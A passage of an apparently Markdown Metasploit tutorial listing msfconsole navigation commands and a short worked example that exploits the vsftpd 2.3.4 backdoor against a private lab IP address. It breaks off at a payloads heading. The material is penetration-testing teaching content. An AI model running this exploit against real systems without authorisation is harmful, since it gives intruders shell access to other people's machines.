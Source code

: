 - GUI is available in **Metasploit Pro** or **Armitage**
    

---

## 📚 3. Basic Navigation Commands

|Command|Explanation|
|---|---|
|`help` or `?`|Show help menu|
|`banner`|Change banner|
|`exit`|Quit the console|
|`search <name>`|Search for a module (exploit, payload, etc.)|
|`use <module>`|Use a module (exploit, auxiliary, etc.)|
|`info`|Show info about current module|
|`back`|Go back to previous menu|
|`show exploits`|List all available exploit modules|
|`show payloads`|List available payloads|
|`show options`|Show required settings|
|`set <option> <value>`|Set required option|
|`run` or `exploit`|Execute the exploit|

---

## 🧨 4. Exploiting a Target

### 🔹 Example: Exploit vsftpd 2.3.4

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.5
set RPORT 21
run
```

---

## 🎯 5. Payloads

### 🔹 Types of Payloads
